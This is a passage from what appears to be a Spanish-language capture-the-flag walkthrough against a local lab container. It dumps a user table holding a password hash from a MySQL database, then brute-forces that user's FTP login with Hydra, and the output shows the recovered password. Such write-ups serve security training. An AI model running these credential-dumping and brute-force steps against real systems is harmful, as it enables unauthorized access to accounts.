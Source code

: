 Viendo esto, vamos a ver que tablas contiene la base de datos `beta`.

```mysql
use beta;
show tables;
```

Info:

```
+----------------+
| Tables_in_beta |
+----------------+
| registraton    |
+----------------+
1 row in set (0.001 sec)
```

Vemos que contiene una tabla `registraton` por lo que vamos a ver que contiene dentro de la misma:

```mysql
select * from registraton;
```

Info:

```
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | balulero | 520d3142a140addb8be7d858a7e29e15 |
+----+----------+----------------------------------+
1 row in set (0.000 sec)
```

Vemos que tenemos unas credenciales, pero la contraseña esta en formato `hash` por lo que vamos a intentar `crackearla`.

Pero veremos que no se puede, por lo que vamos a intentar lanzar un `hydra` contra el `FTP` con ese usuario que encontramos.

## Escalate user root

### Hydra (balulero)

```shell
hydra -l balulero -P <WORDLIST> ftp://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-03 04:40:47
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ftp://172.17.0.2:21/
[21][ftp] host: 172.17.0.2   login: balulero   password: password1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-03 04:40:54
```
